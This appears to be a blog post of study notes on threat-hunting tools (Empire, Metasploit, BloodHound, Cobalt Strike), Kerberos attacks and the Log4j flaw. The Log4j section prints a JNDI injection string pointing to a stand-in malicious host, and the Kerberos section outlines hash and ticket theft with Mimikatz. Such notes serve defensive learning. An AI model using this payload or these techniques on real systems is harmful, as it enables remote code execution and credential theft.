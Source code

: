 ```yaml
---
layout: post
title:  "Threat hunting Tools attacks & Vulnerability"
date:   2022-01-01 13:11:40 -0400
categories: Threat Tools attacks & Vulnerability 
---
```


Threat hunting Tools, attacks & Vulnerability

Empire vs Metasploit: 
- Empire is “a pure PowerShell post-exploitation agent built on cryptologically-secure communications and flexible architecture. Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.” Basically, Empire is a tool that is similar to Metasploit but specific to PowerShell. It allows you to run PowerShell scripts in memory and make a connection back to your machine. 
- The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development

Blood hound
- An application used to visualize active directory environments. It’s a tool allowing for the analysis of AD rights and relations, focusing on the ones that an attacker may abuse. After collecting AD data using one of the available ingestors, BloodHound will map out AD objects (users, groups, computers, …) and accesses and query these relationships in order to discern those that may lead to privilege escalation, lateral movement, etc.

Cobalt strike - how to detect cobalt strike behaviour in an environment
- It’s a commercial, full-featured, remote access tool that bills itself as "adversary simulation software designed to execute targeted attacks and emulate the post-exploitation actions of advanced threat actors". Cobalt Strike’s interactive post-exploit capabilities cover the full range of ATT&CK tactics, all executed within a single, integrated system.[1]
- In addition to its own capabilities, Cobalt Strike leverages the capabilities of other well-known tools such as Metasploit and Mimikatz.[1]

Kerberos attack.
- Kerberos is used in Active Directory.
- an authentication protocol, not authorization.
- Kerberos uses either UDP or TCP as transport protocol, which sends data in cleartext. Due to this Kerberos is responsible for providing encryption.
- Ports used by Kerberos are UDP/88 and TCP/88, which should be listen in KDC
- Attacks
- Overpass The Hash/Pass the Key (PTK): attack consist in using the user hash to impersonate the specific user. If an attacker gets the hash of any user, he could impersonate him against the KDC and then gain access to several services. [User hashes can be extracted from SAM files in workstations or NTDS.DIT file of DCs, as well as from the lsass process memory (by using Mimikatz) where it is also possible to find cleartext passwords.]
- Pass The Ticket (PTT): It is possible obtain the ticket performing a Man-In-The-Middle attack, due to the fact that Kerberos is sent over TCP or UDP. However, this technique does not allow get access to session key. An alternative is getting the ticket from lsass process memory, where also reside the session key. This procediment could be performed with Mimikatz.
- Kerberoasting: a technique which takes advantage of TGS to crack the user accounts passwords offline.

Log4j Vulnerability
- Attacker supply special text in an HTTP User-Agent header or a simple POST form request, with the usual form: ${jndi:ldap://maliciouslhost.com/resource
- The log4j vulnerability parses this and reaches out to the malicious host via the “Java Naming and Directory Interface” (JNDI). The first-stage resource acts as a springboard to another attacker-controlled endpoint, which serves Java code to be executed on the original victim.

Reference
- Mitre ATT&CK
